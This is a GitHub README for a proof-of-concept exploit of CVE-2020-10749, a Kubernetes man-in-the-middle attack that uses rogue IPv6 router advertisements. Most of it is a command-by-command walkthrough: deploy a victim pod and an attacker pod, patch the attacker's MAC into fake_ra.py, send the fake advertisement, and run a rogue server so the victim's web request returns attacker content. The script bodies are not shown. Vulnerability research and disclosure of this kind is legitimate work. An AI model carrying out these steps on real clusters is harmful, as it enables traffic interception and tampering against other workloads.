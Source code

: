# CVE-2020-10749
CVE-2020-10749 PoC (Kubernetes MitM attacks via IPv6 rogue router advertisements)

For educational purposes only

![demo](imgs/CVE-2020-10749.gif)

## Requirements
- Kubernetes cluster with the following kubelet version
  - kubelet v1.18.0-v1.18.3
  - kubelet v1.17.0-v1.17.6
  - kubelet < v1.16.11

## Exploit

### Deploy a victim Pod

```
$ kubectl apply -f victim/victim.yml
$  kubectl ge pods
NAME                       READY   STATUS    RESTARTS   AGE
victim-5484d9f977-pgtnh    1/1     Running   0          10s
$ kubectl exec -it victim-5484d9f977-pgtnh -- sh
/ # apk add curl
/ # ip -6 a show eth0
3: eth0@if25: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1450 state UP
    inet6 fe80::3c07:afff:feb5:7219/64 scope link
        valid_lft forever preferred_lft forever
/ # ip -6 route
fe80::/64 dev eth0  metric 256
ff00::/8 dev eth0  metric 256
$ curl http://example.com
```

### Deploy an attacker Pod

```
$ kubectl apply -f attacker/attacker.yml
$ kubectl get pods
NAME                       READY   STATUS    RESTARTS   AGE
attacker-8857dd5c9-pnzjw   1/1     Running   0          50s
victim-5484d9f977-pgtnh    1/1     Running   0          10s
```

### Send a rogue router advertisement message

```
$ kubectl exec -it attacker-8857dd5c9-pnzjw -- sh
/ # ip a show eth0 | grep "link/ether" | awk '{print $2}'
aa:ca:d1:91:8f:23
/ # sed -i 's/\[YOUR_MAC_ADDR\]/aa:ca:d1:91:8f:23/g' fake_ra.py
/ # python fake_ra.py
Sending a fake router advertisement message...
.
Sent 1 packets.
```

### Launch a rogue server

```
$ kubectl exec -it attacker-8857dd5c9-pnzjw -- sh
/ # python server.py
Listening...
```

### Acccess to a legitimate web site
Make sure that a new IPv6 address and the default gateway are added.

```
$ kubectl exec -it victim-5484d9f977-pgtnh -- sh
/ # ip -6 a show eth0
3: eth0@if27: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1450 state UP
    inet6 2001:db8:1:0:1854:9aff:fe75:2368/64 scope global dynamic
           valid_lft forever preferred_lft forever
               inet6 fe80::1854:9aff:fe75:2368/64 scope link
                      valid_lft forever preferred_lft forever
/ # ip -6 route
2001:db8:1::/64 dev eth0  metric 256
fe80::/64 dev eth0  metric 256
default via fe80::42:fcff:dead:beef dev eth0  metric 1024  expires 0sec
ff00::/8 dev eth0  metric 256
/ # curl http://example.com
malicious!!!!!!!
```

## Reference
- https://github.com/kubernetes/kubernetes/issues/91507

## Author
Teppei Fukuda
